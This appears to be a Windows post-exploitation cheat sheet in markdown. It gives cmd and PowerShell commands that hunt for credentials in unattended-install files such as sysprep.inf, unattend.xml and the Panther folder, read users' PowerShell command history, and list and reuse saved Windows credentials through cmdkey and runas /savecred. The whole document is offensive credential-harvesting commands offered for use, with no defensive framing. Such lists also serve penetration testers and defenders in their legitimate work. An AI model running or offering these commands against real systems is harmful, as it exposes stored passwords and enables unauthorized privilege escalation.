 # File-Unattended ✅
## cmd ✡️
```cmd
dir C:\sysprep.inf /s /p
dir C:\sysprep.xml /s /p
dir C:\unattend.xml /s /p
```
## powershell ✡️
```powershell
Get-ChildItem -Path C:\ -Filter "sysprep.inf" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Filter "Unattend.xml" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Windows\Panther\ -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Windows\system32\sysprep\ -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue
```
# Powershell History ✅
## cmd ✡️
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt # run in cmd
```
## powershell ✡️
```powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt # run in powershell
```
# Saved Windows Credentials ✅
```powershell
cmdkey /list # show save user credentials
runas /savecred /user:<username> cmd.exe # run cmd with another user 
runas /savecred /user:<username> powershell.exe # run powershell with another user
```
